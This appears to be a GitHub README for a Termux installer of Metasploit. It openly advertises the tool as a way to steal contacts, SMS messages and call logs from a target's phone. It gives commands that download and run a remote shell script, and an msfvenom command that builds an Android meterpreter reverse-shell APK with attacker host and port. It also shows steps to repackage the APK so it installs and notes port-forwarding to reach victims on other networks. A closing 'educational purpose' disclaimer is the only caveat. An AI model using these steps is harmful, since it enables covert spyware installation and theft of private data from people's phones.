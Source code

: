 # metasploit
This tool will help you to steal contacts, sms, call logs and other thing of Target Mobile.
<p align="center"><img src="https://spportcovid19patient.000webhostapp.com/metasploit-696x363.png"></p>

<p align="center">
<img src="https://img.shields.io/badge/Python-3-brightgreen.svg?style=plastic">
<img src="https://img.shields.io/badge/Docker-✔-blue.svg?style=plastic">
</p>

<p align="center">
  <a href="https://twitter.com/jeopardy4u"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://instagram.com/loathfaith"><b>Instagram</b></a>
  <span> - </span>
  <a href="https://github.com/loathsomeguy"><b>Tej's Page</b></a>
</p>

## Installation

### Termux

```bashapt update && upgrade
termux-setup-storage
pkg update && pkg upgrade -y
apt-get install curl
apt-get install wget
apt-get install git
pkg install postgresql
wget https://raw.githubusercontent.com/loathsomeguy/metasploit/main/metasploit.sh
chmod +x metasploit.sh
./metasploit.sh
```
## After installation complete
Start `postgresql`
```bash
./postgresql_ctl.sh start
```
And run `msfconsole`
```bash
msfconsole
```
## cmd to generate payload
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.29.29 LPORT=6767 R > /sdcard/payload.apk
```

## What will be my LHOST & LPORT?
```
LHOST: your local ip of wifi/mobile network

LPORT: you can use any port
```
## Payload Not installing, There was a problem parsing the package?
```
1. Install apk editor pro in your mobile
2. Open Apk Editor Pro and "select an apk fiel and choose your payload"
3. Click "FULL EDIT (Resource Re-Build)"
4. Select Manifest in bottom right corner
5. Now Search for SDK and change target sdk version to 22
6. Now save and again save to rebuild the apk
7. Go to APK Editor Pro folder and install that File

```
## How it is useful?

* It is used to retrieve all the messages, contacts, call-logs from the Target Mobile on the same or different Network. However you need to learn how to do port-forwarding in order to do it on different network.

## Warning
***This tool is only for educational purpose. If you use this tool for other purposes except education we will not be responsible in such cases.***
